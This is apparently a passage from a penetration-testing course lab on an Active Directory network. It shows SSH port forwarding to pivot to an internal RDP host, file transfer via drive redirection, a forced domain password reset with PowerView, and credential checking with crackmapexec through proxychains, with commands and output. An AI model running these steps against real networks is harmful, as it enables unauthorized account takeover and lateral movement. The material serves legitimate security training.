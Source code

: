 To achieve this, we can use another SSH port forwarding command, this type `Local Port Forwarding`. The command allows us to pass all RDP traffic to `DEV01` through the `dmz01` host via local port 13389.

```shell-session
ssh -i dmz01_key -L 13389:172.16.8.20:3389 root@10.129.203.111
```

Once this port forward is set up, we can use `xfreerdp` to connect to the host using drive redirection to transfer files back and forth easily.

```shell-session
xfreerdp /v:127.0.0.1:13389 /u:hporter /p:Gr8hambino! /drive:home,"/home/tester/tools"
```

We notice that we only get console access as this server does not have the the Desktop Experience role installed, but all we need is a console. We can type `net use` to view the location of our redirected drive and then transfer the tool over.

```cmd-session
c:\DotNetNuke\Portals\0> net use

New connections will be remembered.


Status       Local     Remote                    Network

-------------------------------------------------------------------------------
                       \\TSCLIENT\home           Microsoft Terminal Services
The command completed successfully.


c:\DotNetNuke\Portals\0> copy \\TSCLIENT\home\PowerView.ps1 .
        1 file(s) copied.
```

Next, type `powershell` to drop into a PowerShell console, and we can use `PowerView` to change the `ssmalls` user's password as follows:

```powershell-session
PS C:\DotNetNuke\Portals\0> Import-Module .\PowerView.ps1

PS C:\DotNetNuke\Portals\0> Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'Str0ngpass86!' -AsPlainText -Force ) -Verbose

VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'ssmalls'
VERBOSE: [Set-DomainUserPassword] Password for user 'ssmalls' successfully reset
```

We can switch back to our attack host and confirm that the password was changed successfully. Generally, we would want to avoid this type of activity during a penetration test, but if it's our only path, we should confirm with our client. Most will ask us to proceed so they can see how far the path will take us, but it's always best to ask. We want to, of course, note down any changes like this in our activity log so we can include them in an appendix of our report.

```shell-session
$ proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86!

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\ssmalls:Str0ngpass86!
```
